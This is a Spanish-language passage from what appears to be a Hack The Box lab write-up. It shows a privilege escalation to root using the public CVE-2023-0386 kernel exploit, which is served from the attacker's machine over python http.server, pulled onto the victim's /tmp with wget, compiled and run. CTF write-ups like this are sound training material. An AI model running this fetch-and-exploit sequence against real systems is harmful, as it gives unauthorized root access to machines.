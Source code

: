 Vamos a descargar el exploit de este [repositorio](https://github.com/xkaneiki/CVE-2023-0386) de github

Este lo clonaremos en nuestra máquina de atacante, y con el uso de

 ```bash
 tar -cjvf CVE-2023-0386.tar.bz2 CVE-2023-0386
 ```

crearemos un archivo comprimido del repositorio.

Utilizaremos

 ```bash
 python3 -m http.server 80
 ```

 para crear un servidor donde estará el archivo, y por último, estando en la ruta ```/tmp``` de la máquina víctima donde tenemos permiso de escritura, usaremos

```bash
wget http://10.10.14.18/CVE-2023-0386.tar.bz2
```

para conseguir el archivo.

> Todo este proceso se debe a que las máquinas de HTB no tienen acceso a internet

Descomprimiremos el archivo con

```bash
tar -xf CVE-2023-0386.tar.bz2
```

y accederemos al archivo descomprimido donde haremos

```bash
make all
```

posteriormente seguiremos las instrucciones del repositorio.

Primero ejecutaremos

```bash
./fuse ./ovlcap/lower ./gc
```

posteriormente

```bash
./exp
```

y así ya tendremos acceso **completo** a la máquina como root y a la **root flag**

![img](/assets/img/post/twomillion/fce27810-42da-4d4e-9cc7-05512090e491.png)

*Espero que os haya gustado y servido, cualquier comentario es de mucha ayuda. Adios!*
